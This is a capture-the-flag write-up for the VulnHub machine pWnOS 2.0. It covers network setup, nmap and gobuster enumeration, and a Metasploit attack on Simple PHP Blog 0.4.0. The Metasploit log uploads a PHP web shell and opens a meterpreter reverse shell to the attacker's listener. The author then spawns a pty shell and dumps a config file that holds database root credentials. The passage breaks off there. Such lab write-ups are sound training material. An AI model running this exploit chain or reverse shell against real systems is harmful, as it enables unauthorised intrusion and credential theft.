### [VulnHub - Machine Information Page](https://www.vulnhub.com/entry/pwnos-20-pre-release,34/)

### [YouTube - Tutorial](https://www.youtube.com/watch?v=bMuhFVQzdRM)


---

- **Name**: pWnOS: 2.0 (Pre-Release)
- **Date release**: 4 Jul 2011
- **Author**: [pWnOS](https://www.vulnhub.com/author/pwnos,6/)
- **Series**: [pWnOS](https://www.vulnhub.com/series/pwnos,3/)
- **Web page**: [http://pwnos.com/](http://pwnos.com/)

### Download

Please remember that VulnHub is a free community resource so we are unable to check the machines that are provided to us. Before you download, please read our FAQs sections dealing with the dangers of running unknown VMs and our suggestions for “protecting yourself and your network. If you understand the risks, please download!

- **pWnOS_v2.0.7z** (Size: 286 MB)
- **Download**: [http://pwnos.com/files/pWnOS_v2.0.7z](http://pwnos.com/files/pWnOS_v2.0.7z)
- **Download (Mirror)**: [https://download.vulnhub.com/pwnos/pWnOS_v2.0.7z](https://download.vulnhub.com/pwnos/pWnOS_v2.0.7z)

### Description

pWnOS v2.0 (PRE-RELEASE!)

#### Goal:

- Get root... Win!

#### About:

pWnOS v2.0 is a Virutal Machine Image which hosts a server to pratice penetration testing. It will test your ability to exploit the server and contains multiple entry points to reach the goal (root). It was design to be used with WMWare Workstation 7.0, but can also be used with most other virtual machine software.

#### Configuration & Setup:

- Configure your attacking platform to be within the 10.10.10.0/24 network range

For example the ip of 10.10.10.200 with the netmask of 255.255.255.0 is what I statically set my BackTrack 5 network adapter to.

- VMWare's Network Adapter is set to Bridged Network Adapter

You may need to change VMWare's Network Adapter to NAT or Host-Only depending on your setup
The server's ip is staticaly set to 10.10.10.100

#### Server's Network Settings:

- IP: 10.10.10.100
- Netmask: 255.255.255.0
- Gateway: 10.10.10.15

#### Version History:

v2.0 - 07/04/2011 - Pre-Release copy for initial testing
Source: pWnOS_v2.0.7z/pWnOS v2.0/pWnOS_INFO-v2_0.txt

### File Information

- **Filename**: pWnOS_v2.0.7z
- **File size**: 286 MB
- **MD5**: 1EB0960C0BA29335230ADA1DF80CD22C
- **SHA1**: A3FDBE0449363D1CB844D865FE7BD6EE8968567D


---

# Installation 🔌💻🖥️🛜💾🔌

The process is the same with pWnOS v1.0
unzip the downloaded file and then execute the **pWnOS v2.0.vmx** VMware virtual machine configuration (after you have installed VMware)

We are not going to install Kali Linux on VMware,

First we click on "**Edit virtual machine settings**"

At **device** we look at **Network adapter**, to the right at **Network connection** make a checkmark on the checkbox **Replicate physical network connection state**.

Then **Configure Adapters** check-off all the network adapters except the one from VirtualBox



This setting will bridge the _**VMware virtual machine’s network connection**_ through the VirtualBox **_host-only adapter_**.

By following these steps, you ensure that both your **_Kali Linux machine (in VirtualBox)_** and the **_pwnOS machine (in VMware)_** are connected to the same host-only network, enabling them to communicate with each other.

## Configuration - IP

So we litterally start this hacking exercise by login as root, just so we can change from a static IP to DHCP, This will allow the target machine to automatically receive an IP address that is compatible with the **host-only network**... The quality of these Vulnerable machines cannot be all good out of the box... 🤏👎⚖️

- _**Username:** root_
- _**Password:** root@ISIntS_



Once logged in, check the IP address of the target machine. This confirms that the target IP address is currently set to **10.10.10.100**




**Edit the Network Interfaces Configuration:** 
To change the static IP to DHCP, you need to edit the `/etc/network/interfaces` file on the target machine. 

`sudo nano /etc/network/interfaces`

### Before:




### After:


This configuration will enable the attacking machine in **VirtualBox (Kali Linux)** and the **target machine in VMware** to join the same network and communicate effectively.

and since they keyboard is not configured correctly, it can be impossible to exit the text editor with **CTRL + X** it might seems unresponsive, alternative use the **F2** key.

just to make it fool-proof, restart the machine just in case, before the real fun begins.

---
---

# Enumeration

The moment of truth, let's see if we can even find the IP address

## netdiscover & nmap



Yes! We got an IP! Time to use nmap

```bash
# sudo netdiscover -i eth1
# sudo netdiscover -i eth1 -r 192.168.56.0/24
 Currently scanning: Finished!   |   Screen View: Unique Hosts                             
                                                                                           
 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.1    0a:00:27:00:00:0b      1      60  Unknown vendor                          
 192.168.56.2    08:00:27:62:b4:10      1      60  PCS Systemtechnik GmbH                  
 192.168.56.40   00:0c:29:aa:97:57      1      60  VMware, Inc.                            
```


```bash
# nmap -sC -sV 192.168.56.40 
# nmap -sC -sV 192.168.56.40 -p- 
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.40 -p-
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-22 09:35 CET
Nmap scan report for 192.168.56.40
Host is up (0.00042s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.8p1 Debian 1ubuntu3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 85:d3:2b:01:09:42:7b:20:4e:30:03:6d:d1:8f:95:ff (DSA)
|   2048 30:7a:31:9a:1b:b8:17:e7:15:df:89:92:0e:cd:58:28 (RSA)
|_  256 10:12:64:4b:7d:ff:6a:87:37:26:38:b1:44:9f:cf:5e (ECDSA)
80/tcp open  http    Apache httpd 2.2.17 ((Ubuntu))
|_http-title: Welcome to this Site!
|_http-server-header: Apache/2.2.17 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 00:0C:29:AA:97:57 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.85 seconds
```

We can confirm that the following ports are available
- 22/TCP - SSH - OpenSSH 5.8p1 Debian 1ubuntu3
- 80/TCP - HTTP - Apache httpd 2.2.17



Since there is a port 80 HTTP, let's check the webpage for any further clues

The main page:


Nothing fancy, Home, Register and Login

There is no robots.txt either... I guess we go straight to using GoBuster


## GoBuster

```bash
# gobuster dir -u http://192.168.56.34/ -w /usr/share/wordlists/dirb/common.txt
# gobuster dir -u http://192.168.56.40/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
# gobuster dir -u http://192.168.56.37/secret -w /usr/share/wordlists/dirb/common.txt -x txt,php,html

# wordpress scan: 
# wpscan --url http://192.168.56.38/assets/fonts/blog/

┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.56.40/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.40/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 854]
/blog                 (Status: 301) [Size: 313] [--> http://192.168.56.40/blog/]
/login                (Status: 200) [Size: 1174]
/register             (Status: 200) [Size: 1562]
/info                 (Status: 200) [Size: 49886]
/includes             (Status: 301) [Size: 317] [--> http://192.168.56.40/includes/]
/activate             (Status: 302) [Size: 0] [--> http://10.10.10.100/index.php]
Progress: 87662 / 87662 (100.00%)
===============================================================                                                         
Finished                                                                                                                
===============================================================
```

The "Blog" is not a page we have discovered before!



If we click on More Information to get the page info, at the **General** Tab, we see the page use Simple PHP Blog 0.4.0





What would happen if we searched for exploits inside searchsploit?



The **Remote Command Execution** seems useful enough

---
---

# Foothold 🦶

## Metasploit-framework

```sh
$ /usr/share/kali-menu/helper-scripts/metasploit-framework.sh
[sudo] password for kali: 
[+] Starting database
[i] The database appears to be already configured, skipping initialization
Metasploit tip: Metasploit can be configured at startup, see msfconsole 
--help to learn more
WARNING:  database "msf" has a collation version mismatch
DETAIL:  The database was created using collation version 2.40, but the operating system provides version 2.41.
HINT:  Rebuild all objects in this database that use the default collation and run ALTER DATABASE msf REFRESH COLLATION VERSION, or build PostgreSQL with the right library version.
WARNING:  database "msf" has a collation version mismatch
DETAIL:  The database was created using collation version 2.40, but the operating system provides version 2.41.
HINT:  Rebuild all objects in this database that use the default collation and run ALTER DATABASE msf REFRESH COLLATION VERSION, or build PostgreSQL with the right library version.
                                                  
               .;lxO0KXXXK0Oxl:.
           ,o0WMMMMMMMMMMMMMMMMMMKd,
        'xNMMMMMMMMMMMMMMMMMMMMMMMMMWx,
      :KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK:
    .KMMMMMMMMMMMMMMMWNNNWMMMMMMMMMMMMMMMX,
   lWMMMMMMMMMMMXd:..     ..;dKMMMMMMMMMMMMo
  xMMMMMMMMMMWd.               .oNMMMMMMMMMMk                                               
 oMMMMMMMMMMx.                    dMMMMMMMMMMx                                              
.WMMMMMMMMM:                       :MMMMMMMMMM,                                             
xMMMMMMMMMo                         lMMMMMMMMMO                                             
NMMMMMMMMW                    ,cccccoMMMMMMMMMWlccccc;                                      
MMMMMMMMMX                     ;KMMMMMMMMMMMMMMMMMMX:                                       
NMMMMMMMMW.                      ;KMMMMMMMMMMMMMMX:                                         
xMMMMMMMMMd                        ,0MMMMMMMMMMK;                                           
.WMMMMMMMMMc                         'OMMMMMM0,                                             
 lMMMMMMMMMMk.                         .kMMO'                                               
  dMMMMMMMMMMWd'                         ..                                                 
   cWMMMMMMMMMMMNxc'.                ##########                                             
    .0MMMMMMMMMMMMMMMMWc            #+#    #+#
      ;0MMMMMMMMMMMMMMMo.          +:+
        .dNMMMMMMMMMMMMo          +#++:++#+
           'oOWMMMMMMMMo                +:+
               .,cdkO0K;        :+:    :+:                                
                                :::::::+:
                      Metasploit

       =[ metasploit v6.4.95-dev                                ]
+ -- --=[ 2,566 exploits - 1,315 auxiliary - 1,680 payloads     ]
+ -- --=[ 432 post - 49 encoders - 13 nops - 9 evasion          ]

Metasploit Documentation: https://docs.metasploit.com/
The Metasploit Framework is a Rapid7 Open Source Project

msf > WARNING:  database "msf" has a collation version mismatch
DETAIL:  The database was created using collation version 2.40, but the operating system provides version 2.41.
HINT:  Rebuild all objects in this database that use the default collation and run ALTER DATABASE msf REFRESH COLLATION VERSION, or build PostgreSQL with the right library version.
msf > search Simple PHP Blog 0.4.0
                                                                                                                                                             
Matching Modules                                                                                                                                             
================                                                                                                                                             
                                                                                                                                                             
   #  Name                                      Disclosure Date  Rank       Check  Description                                                               
   -  ----                                      ---------------  ----       -----  -----------                                                               
   0  exploit/unix/webapp/sphpblog_file_upload  2005-08-25       excellent  Yes    Simple PHP Blog Remote Command Execution                                  
                                                                                                                                                             
                                                                                                                                                             
Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/sphpblog_file_upload                                           
                                                                                                                                                             
# Select the first index
msf > use 0                                                                                                                                                  
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

# Check the available options                                                                                      
msf exploit(unix/webapp/sphpblog_file_upload) > options                                                                                                      
                                                                                                                                                             
Module options (exploit/unix/webapp/sphpblog_file_upload):                                                                                                   
                                                                                                                                                             
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks5, socks5h, sapni, http, socks
                                       4
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /sphpblog        yes       Sphpblog directory path
   VHOST                     no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.52    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.

# We have to change the following parameters: 
# RHOSTS: 192.168.56.40
# URI: /blog
# LHOST: 192.168.56.52

View the full module info with the info, or info -d command.

msf exploit(unix/webapp/sphpblog_file_upload) > set RHOSTS 192.168.56.40
RHOSTS => 192.168.56.40
msf exploit(unix/webapp/sphpblog_file_upload) > set URI /blog
URI => /blog
msf exploit(unix/webapp/sphpblog_file_upload) > set LHOST 192.168.56.52
LHOST => 192.168.56.52
msf exploit(unix/webapp/sphpblog_file_upload) > run
[*] Started reverse TCP handler on 192.168.56.52:4444 
[+] Successfully retrieved hash: $1$weWj5iAZ$NU4CkeZ9jNtcP/qrPC69a/
[+] Successfully removed /config/password.txt
[+] Successfully created temporary account.
[+] Successfully logged in as XvUVN3:mRNqD8
[+] Successfully retrieved cookie: c83sciemu07r3bigrfe0ejk5o6
[+] Successfully uploaded SgMkd3NjK7R7rhgYGVJa.php
[+] Successfully uploaded 4KWqqCznissOGMEpaniC.php
[+] Successfully reset original password hash.
[+] Successfully removed /images/SgMkd3NjK7R7rhgYGVJa.php
[*] Calling payload: /images/4KWqqCznissOGMEpaniC.php
[*] Sending stage (41224 bytes) to 192.168.56.40
WARNING:  database "msf" has a collation version mismatch
DETAIL:  The database was created using collation version 2.40, but the operating system provides version 2.41.
HINT:  Rebuild all objects in this database that use the default collation and run ALTER DATABASE msf REFRESH COLLATION VERSION, or build PostgreSQL with the right library version.
WARNING:  database "msf" has a collation version mismatch
DETAIL:  The database was created using collation version 2.40, but the operating system provides version 2.41.
HINT:  Rebuild all objects in this database that use the default collation and run ALTER DATABASE msf REFRESH COLLATION VERSION, or build PostgreSQL with the right library version.
[*] Meterpreter session 1 opened (192.168.56.52:4444 -> 192.168.56.40:60204) at 2026-02-25 15:02:53 +0100
[+] Successfully removed /images/4KWqqCznissOGMEpaniC.php

# We now have remote command line action 
meterpreter > 

```

We now have remote command line action allowing for further post exploitation activities.

```sh
# Get a better shell experience
meterpreter > shell
Process 1410 created.
Channel 0 created.
sh: getcwd() failed: No such file or directory
sh: getcwd() failed: No such file or directory
which python
sh: getcwd() failed: No such file or directory
/usr/bin/python
id                 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c "import pty;pty.spawn('/bin/bash')"
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory

# Now it is time to look for credentials for the SSH login
www-data@web:$ cd ..
cd ..
chdir: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
www-data@web:..$ ls -al
ls -al
total 356
drwxrwxrwx 10 root     root      4096 Dec 31 17:18 .
drwxr-xr-x  4 root     root      4096 May  9  2011 ..
-rwxrwxrwx  1 root     root      5952 Dec 28  2004 add.php
-rwxrwxrwx  1 root     root      6183 Dec 27  2004 add_block.php
-rwxrwxrwx  1 root     root      4609 Dec 28  2004 add_cgi.php
-rwxrwxrwx  1 root     root      5781 Jan 18  2005 add_link.php
-rw-rw-rw-  1 root     root      4496 Jan  2  2005 add_static.php
-rwxrwxrwx  1 root     root      1675 Oct 18  2004 add_static_cgi.php
-rwxrwxrwx  1 root     root       403 Nov  8  2004 atom.php
-rwxrwxrwx  1 root     root     10835 Jan  6  2005 categories.php
-rwxrwxrwx  1 root     root      7516 Nov 30  2004 colors.php
-rwxrwxrwx  1 root     root      2519 Nov 30  2004 colors_cgi.php
-rwxrwxrwx  1 root     root      2720 Jan  4  2005 comment_add_cgi.php
-rwxrwxrwx  1 root     root      1778 Oct 18  2004 comment_delete_cgi.php
-rwxrwxrwx  1 root     root     10194 Jan  4  2005 comments.php
drwxrwxrwx  2 www-data www-data  4096 Dec 31 17:17 config
-rwxrwxrwx  1 root     root      2374 Nov 22  2004 contact.php
-rwxrwxrwx  1 root     root      1560 Jan 18  2005 contact_cgi.php
drwxrwxrwx  3 www-data www-data  4096 May  9  2011 content
-rwxrwxrwx  1 root     root      3039 Oct 18  2004 delete.php
-rwxrwxrwx  1 root     root      3285 Oct 18  2004 delete_static.php
drwxrwxrwx  2 root     root      4096 Jan 18  2005 docs
-rwxrw-rw-  1 root     root      1001 Nov 28  2004 downgrade.php
drwxrwxrwx  2 root     root      4096 Jan 18  2005 flash
-rwxrwxrwx  1 root     root      1201 Sep 20  2004 image_list.php
-rwxrwxrwx  1 root     root      4754 Jan 18  2005 index.php
-rwxrwxrwx  1 root     root      4185 Oct 18  2004 info.php
-rwxrwxrwx  1 root     root      2282 Sep 20  2004 install00.php
-rwxrwxrwx  1 root     root      1530 Sep 20  2004 install01.php
-rwxrwxrwx  1 root     root      2650 Sep 20  2004 install02.php
-rwxrwxrwx  1 root     root      2239 Sep 20  2004 install03.php
-rwxrwxrwx  1 root     root      1558 Sep 20  2004 install03_cgi.php
drwxrwxrwx  3 root     root      4096 Jan 18  2005 interface
drwxrwxrwx 19 root     root      4096 Jan 18  2005 languages
-rwxrw-rw-  1 root     root      2780 Jan  1  2005 languages.php
-rwxrw-rw-  1 root     root      5294 Jan  1  2005 languages_cgi.php
-rwxrwxrwx  1 root     root      1975 Sep 20  2004 login.php
-rwxrwxrwx  1 root     root      1685 Jan 18  2005 login_cgi.php
-rwxrwxrwx  1 root     root      1059 Sep 20  2004 logout.php
-rwxrwxrwx  1 root     root     22803 Nov 29  2004 options.php
-rwxrwxrwx  1 root     root      2358 Oct 18  2004 options_cgi.php
-rwxrwxrwx  1 root     root      7789 Dec 28  2004 preview_cgi.php
-rwxrwxrwx  1 root     root      5984 Dec 27  2004 preview_static_cgi.php
-rwxrwxrwx  1 root     root      2307 Jan  2  2005 rate_cgi.php
-rwxrwxrwx  1 root     root       400 Nov  8  2004 rdf.php
-rwxrwxrwx  1 root     root       908 Sep 20  2004 recompress.php
-rwxrwxrwx  1 root     root       400 Nov  8  2004 rss.php
drwxrwxrwx  2 root     root      4096 Jan 18  2005 scripts
-rwxrwxrwx  1 root     root      1348 Sep 20  2004 search.php
-rwxrwxrwx  1 root     root      2025 Sep 20  2004 set_login.php
-rwxrwxrwx  1 root     root      1345 Sep 20  2004 set_login_cgi.php
-rwxrwxrwx  1 root     root     12027 Nov 29  2004 setup.php
-rwxrwxrwx  1 root     root      2886 Nov 29  2004 setup_cgi.php
-rwxrwxrwx  1 root     root      1616 Oct 18  2004 static.php
-rw-rw-rw-  1 root     root      6904 Jan 18  2005 stats.php
drwxrwxrwx  4 root     root      4096 Jan 18  2005 themes
-rwxrwxrwx  1 root     root      3383 Oct 18  2004 themes.php
-rwxrw-rw-  1 root     root      7956 Nov 27  2004 trackback.php
-rw-rw-rw-  1 root     root      1745 Nov 24  2004 trackback_delete_cgi.php
-rwxrw-rw-  1 root     root       922 Jan 18  2005 upgrade.php
-rw-rw-rw-  1 root     root      1489 Jun 17  2004 upload_img.php
-rwxrwxrwx  1 root     root      1929 Oct 18  2004 upload_img_cgi.php
-rwxrwxrwx  1 root     root      9972 Sep 28  2004 upload_img_new.php

# Look deeper
www-data@web:..$ cd ..                       
cd ..
www-data@web:../..$ ls -al 
ls -al
total 64
drwxr-xr-x 16 root root  4096 May  7  2011 .
drwxr-xr-x 21 root root  4096 May  7  2011 ..
drwxr-xr-x  2 root root  4096 Apr 21  2011 backups
drwxr-xr-x  8 root root  4096 May  7  2011 cache
drwxrwxrwt  2 root root  4096 May  7  2011 crash
-rw-r--r--  1 root root   177 May  7  2011 index.html
drwxr-xr-x 34 root root  4096 May  7  2011 lib
drwxrwsr-x  2 root staff 4096 Apr 21  2011 local
drwxrwxrwt  4 root root    80 Dec 31 12:31 lock
drwxr-xr-x 11 root root  4096 Dec 31 12:30 log
drwxrwsr-x  2 root mail  4096 May  7  2011 mail
# USEFUL FILE - SQL CONNECTION - Seems promising #
-rw-r--r--  1 root root   520 May  7  2011 mysqli_connect.php
drwxr-xr-x  2 root root  4096 May  7  2011 opt
drwxr-xr-x 10 root root   440 Dec 31 12:31 run
drwxr-xr-x  4 root root  4096 May  7  2011 spool
drwxrwxrwt  2 root root  4096 Apr 21  2011 tmp
drwxr-xr-x  2 root root  4096 May  7  2011 uploads
drwxr-xr-x  4 root root  4096 May  9  2011 www

# Let's check the content of the PHP file
www-data@web:../..$ cat mysqli_connect.php
cat mysqli_connect.php
<?php # Script 8.2 - mysqli_connect.php

// This file contains the database access information.
// This file also establishes a connection to MySQL
// and selects the database.

// Set the database access information as constants:

DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'root@ISIntS');
